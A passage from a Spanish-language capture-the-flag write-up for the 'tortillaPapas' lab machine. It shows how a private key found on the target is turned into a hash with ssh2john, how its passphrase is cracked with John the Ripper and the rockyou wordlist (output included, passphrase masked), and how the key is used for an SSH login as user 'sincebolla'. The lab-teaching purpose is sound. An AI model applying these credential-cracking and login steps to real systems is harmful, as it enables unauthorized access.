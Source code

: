 <img src="/assets/images/THL-writeup-tortillaPapas/Captura12.png">
</p>

Muy extraño lugar para dejar una llave privada.

Cópiala dentro de un archivo en tu máquina, pues vamos a crackearla para obtener su frase y poder usarla contra el **servicio SSH**.

Una vez que la tengas copiada, vamos a obtener el hash de la llave con la herramienta **ssh2john** y la guardaremos en un archivo:
```bash
ssh2john id_rsa > hash
```

Y con **JohnTheRipper**, crackeamos el hash obtenido:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXX           (id_rsa)     
1g 0:00:01:34 DONE (2025-03-22 23:25) 0.01062g/s 37.81p/s 37.81c/s 37.81C/s cougar..emelec
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Excelente, tenemos la frase de la llave.

Ahora podemos usarla para conectarnos al **servicio SSH**, siendo que al probarla con ambos usuarios, resulto ser la llave privada del **usuario sincebolla**:
```bash
ssh -i id_rsa sincebolla@192.168.1.190
Enter passphrase for key 'id_rsa': 
Linux tortillapapas 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
...
Last login: Thu Apr 18 12:40:58 2024
sincebolla@tortillapapas:~$ whoami
sincebolla
```
Funciono correctamente.

